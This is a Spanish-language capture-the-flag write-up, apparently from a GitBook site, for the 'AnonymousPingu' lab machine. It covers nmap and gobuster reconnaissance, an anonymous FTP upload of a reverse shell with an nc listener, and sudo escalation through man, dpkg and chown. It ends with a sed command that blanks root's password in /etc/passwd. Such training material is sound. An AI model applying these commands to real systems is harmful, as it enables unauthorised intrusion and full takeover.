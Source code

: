 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  29/04/2024
---
```


# AnonymousPingu

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web que nos muestra sea una de mantenimiento.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vemos un directorio interesante que es `/uploads` entonces podemos subir archivos por lo que probamos subir a través de FTP siendo anónimos una [**Reverse Shell**](https://www.revshells.com/).&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos que esta el archivo subido correctamente y nos ponemos en escucha.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)con permisos **SUDO** en **man**.

```
sudo -u pingu /usr/bin/man
!bin/sh
```

Ahora somos el usuario **Pingu**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/dpkg/)con permisos **SUDO** en **dpkg**.

```bash
sudo -u gladys dpkg -l
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos con [GTFOBins ](https://gtfobins.github.io/gtfobins/chown/)con permisos **SUDO** en **chown**.

```bash
sudo /usr/bin/chown gladys:gladys /etc
/usr/bin/sed -i 's/root:x:/root::/g' /etc/passwd #no tenemos permisos con nano o vim
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
